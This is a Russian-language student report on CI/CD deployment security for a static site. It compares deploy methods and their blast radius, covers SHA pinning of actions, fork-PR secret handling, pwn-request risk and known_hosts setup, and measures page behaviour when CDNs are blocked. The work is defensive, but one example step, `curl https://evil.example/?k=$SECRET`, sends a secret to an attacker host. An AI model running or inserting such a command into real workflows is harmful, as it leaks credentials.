



# T4. Модель доставки и безопасность пайплайна

## 1. Способы доставки и цена компрометации

| Способ | Какие учётные данные | Объём прав | Время жизни | Последствия компрометации |
|---|---|---|---|---|
| push в `gh-pages` (`peaceiris/actions-gh-pages`) с `GITHUB_TOKEN` | токен workflow с `contents: write` | запись во **все** ветки и теги репозитория (кроме защищённых правилами), релизы | до конца job (не более 24 ч) | подмена сайта **и кода**: коммит в `main`, перевес тегов, отравление следующих сборок |
| то же с PAT или deploy-ключом (типично для публикации в чужой репозиторий) | PAT / SSH-ключ в секрете | PAT — все репозитории владельца в пределах scope; deploy-ключ — один репозиторий на запись | бессрочно, пока не отозван | то же, но злоумышленник сохраняет доступ и после окончания job |
| `actions/upload-pages-artifact` + `actions/deploy-pages` | `GITHUB_TOKEN` с `pages: write` + OIDC-токен (`id-token: write`) | только публикация артефакта текущего запуска в Pages; код репозитория не меняется | до конца job | подмена содержимого сайта до следующего деплоя; ограничивается правилами environment `github-pages` (только `main`) |
| `rsync`/`scp` по SSH с deploy-ключом (Helios) | приватный ключ в секрете + `known_hosts` | без ограничений — **полный shell учётной записи** на Helios: все файлы студента, другие лабораторные, `~/.ssh/authorized_keys` | бессрочно | захват учётной записи, закрепление (дописать свой ключ), подмена сайта на домене университета. С `restrict,command="rrsync …"` права сужаются до записи в один каталог |
| FTP | логин и пароль | вся учётная запись (для Helios — тот же пароль, что и для SSH) | бессрочно | пароль передаётся **открытым текстом**: его можно перехватить в сети, а не только из CI |
| SFTP | пароль или ключ | как у SSH, если сервер не делает chroot только для SFTP | бессрочно | как у SSH; на хостингах с chroot — только каталог сайта |
| S3 API (Yandex Object Storage и др.) | статический ключ сервисного аккаунта (access key + secret) | определяется IAM: при роли `storage.uploader` на один бакет — только этот бакет | бессрочно (рекомендуется ротация) | подмена или удаление сайта; **финансовый ущерб** — исходящий трафик и хранение оплачиваются владельцем |

Общий вывод: опасность определяется не протоколом, а тем, **что ещё** позволяют учётные данные помимо публикации.
Самый узкий канал у `deploy-pages`: токен не умеет менять код, живёт минуты и привязан к environment.
Самые широкие права у SSH-ключа к общему студенческому аккаунту без ограничений в `authorized_keys`.

### Что сделано в этом проекте

- В `pages.yml` по умолчанию `permissions: contents: read`. `pages: write` и `id-token: write` выдаются только
  job `deploy`, а он запускается только для `main`.
- Job `build` в обоих workflow **не получает ни одного секрета**. Всё стороннее (uv, mkdocs, плагины, matplotlib)
  выполняется там, где красть нечего. Ключ Helios есть только в job `deploy`, где из внешних actions
  используются лишь `actions/checkout` и `actions/download-artifact`.
- Deploy-ключ — отдельная пара ed25519, созданная только для CI. В `authorized_keys` она ограничена опциями
  `restrict` и `command=` (см. [P4](p4.md)).
- Все actions зафиксированы по SHA коммита, рядом в комментарии указан тег.

## 2. Ответы на вопросы

### Почему секреты недоступны в `pull_request` из форка

По событию `pull_request` запускается workflow **из ветки PR**, то есть код, написанный автором форка, причём вместе
с самим YAML-файлом. Если бы туда передавались секреты, любой человек мог бы открыть PR с шагом
`curl https://evil.example/?k=$SECRET` и получить ключ. Поэтому GitHub для PR из форков:

- не передаёт `secrets.*` (вместо них пустые строки), кроме `GITHUB_TOKEN`;
- выдаёт `GITHUB_TOKEN` только на чтение;
- для внешних участников требует ручного подтверждения запуска.

Обходной путь — событие `pull_request_target`, которое выполняет workflow из **базовой** ветки с секретами.
Оно безопасно, только пока workflow не делает checkout кода PR и не исполняет его. Комбинация
`pull_request_target` + `actions/checkout` с `ref: ${{ github.event.pull_request.head.sha }}` + сборка — классическая
уязвимость «pwn request». В этом проекте `pull_request_target` не используется: PR из форка только собирается.

### Зачем фиксировать actions по SHA, а не по тегу

Тег в git — изменяемый указатель: `git tag -f v4 <другой коммит> && git push -f --tags`. Ссылка
`uses: owner/action@v4` означает «то, на что тег указывает в момент запуска». SHA коммита — хеш содержимого, и подменить
код под тем же SHA практически невозможно. Поэтому фиксация по SHA защищает от двух сценариев:

1. взломан аккаунт сопровождающего или его токен, и злоумышленник перевешивает существующие теги на вредоносный коммит;
2. сопровождающий сам выпускает вредоносную или сломанную версию под старым тегом.

Нюансы: SHA нужно брать из **исходного** репозитория, а не из форка (GitHub отдаёт коммиты форков по пути исходного
репозитория — так называемые imposter commits). Обновлять SHA нужно осмысленно, например через Dependabot, который понимает
комментарий `# v7.0.1`.

### Supply-chain-атака через action и её последствия для сайта

Сторонний action исполняется с правами job: видит `GITHUB_TOKEN`, переданные ему секреты и рабочий каталог.
Реальный пример — компрометация `tj-actions/changed-files` в марте 2025 года (CVE-2025-30066): все теги
перевесили на коммит, который выгружал память раннера с секретами в публичный лог сборки. Пострадали
тысячи репозиториев, которые ссылались на action по тегу.

Для опубликованного сайта последствия такие:

- **незаметная подмена содержимого**: action, выполняемый после сборки, дописывает в каждую HTML-страницу `<script>`
  (майнер, фишинговая форма входа «ИТМО ID», редирект). Healthcheck по коду 200 и контрольной строке это
  **не обнаружит**: страница работает и содержит правильный хеш коммита;
- **кража deploy-ключа**: доступ к хостингу остаётся у злоумышленника и после того, как action исправлен.
  Нужна ротация ключа и аудит `authorized_keys`;
- **репутационный ущерб**: вредоносная страница отдаётся с домена `se.ifmo.ru` или `github.io` и выглядит доверенной.

Меры: SHA-пиннинг, отсутствие секретов в job со сторонним кодом, минимальные `permissions`, environment с правилами
защиты, контроль целостности (хеш артефакта сборки сравнивается с тем, что лежит на сервере).

### Как настроить `known_hosts`, не отключая проверку ключа хоста

Неправильно: `StrictHostKeyChecking=no` или `ssh-keyscan` прямо в CI при каждом запуске. Это доверие при первом
подключении, а в CI «первое подключение» случается каждый раз, и человек-посредник на маршруте получит ключ доступа.

Правильно:

1. Один раз получить ключ хоста по **доверенному** каналу: `ssh-keyscan -p 2222 helios.cs.ifmo.ru` из сети ИТМО
   и сверить отпечаток (`ssh-keygen -lf`) с тем, что показал SSH при интерактивном входе с паролем, или с
   отпечатком, опубликованным администраторами.
2. Сохранить строки в секрет `HELIOS_KNOWN_HOSTS`. Это не тайна, но так файл нельзя подменить через PR.
3. В CI записать их в `~/.ssh/known_hosts` и явно включить `StrictHostKeyChecking yes`. При смене ключа сервера
   деплой упадёт с ошибкой `Host key verification failed`. Так и должно быть: ключ обновляют вручную после сверки.

## 3. Работа сайта при недоступных CDN

Тема Material по умолчанию берёт шрифты Roboto с Google Fonts, а MathJax на сайт обычно подключают с jsDelivr.
Проверены три варианта сборки одной страницы ([Результаты WaySense](results/index.md): формула, таблицы, графики):

| Вариант | Конфигурация | Как устроено |
|---|---|---|
| **cdn** | `mkdocs.t4-cdn.yml` | шрифты и MathJax с CDN |
| **privacy** | `mkdocs.t4-privacy.yml` | плагин `privacy` скачивает внешние ресурсы при сборке; MathJax по ссылке на CDN |
| **local** | `mkdocs.yml` (рабочий) | `privacy` + MathJax 3.2.2 со шрифтами в `docs/assets/mathjax/` (`scripts/vendor_mathjax.py`, тарбол из npm с проверкой sha512) |

Методика: [`scripts/t4_measure.py`](https://github.com/bailaa/pyengin-ssg/blob/main/scripts/t4_measure.py).
Каждый вариант раздаётся из подкаталога `/~s000000/` (как на Helios), Chromium (Playwright) открывает страницу
дважды: с открытой сетью и с заблокированными внешними хостами. Переданные байты считаются через DevTools Protocol
(`encodedDataLength`). Локальный сервер `http.server` не сжимает ответы, поэтому отдельно посчитан вес локальных
ресурсов с gzip, как их отдаст Apache или CDN.

--8<-- "snippets/t4_table.md"

Пояснения к таблице:

- «Ошибок загрузки: 2» во всех вариантах — это запросы виджета репозитория Material к `api.github.com`
  (звёзды и последний релиз). Виджет единственный оставшийся внешний ресурс; при недоступности он просто
  не показывает цифры.
- Вариант **privacy** без CDN не отличается от варианта с CDN: при сборке плагин скопировал `tex-chtml.js`, но
  шрифты MathJax подгружаются скриптом динамически из соседнего каталога `output/chtml/fonts/`, а их плагин не видит.
  Итог — 404 на шрифты и формула, набранная системным шрифтом.

<figure markdown>

<figcaption>cdn, CDN недоступен: сырой TeX, системный шрифт</figcaption>
</figure>

<figure markdown>

<figcaption>privacy: шрифты MathJax 404, формула набрана запасным шрифтом</figcaption>
</figure>

<figure markdown>

<figcaption>local: формула отрисована полностью, внешних зависимостей нет</figcaption>
</figure>

### Изменение веса

--8<-- "snippets/t4_weight.md"

Вывод: локальное размещение ресурсов почти не меняет вес страницы для читателя (+4 %, 576 → 599 КБ), но убирает 10 внешних запросов к
трём сторонним доменам. Сайт перестаёт зависеть от доступности Google Fonts и jsDelivr. Это особенно важно для
Helios, где часть зарубежных сервисов может быть недоступна. Ещё один плюс — приватность: Google не получает
IP-адреса читателей. Цена — рост объёма сайта на сервере и необходимость обновлять MathJax самостоятельно.

См. также [методику замеров](t4-methodology.md).
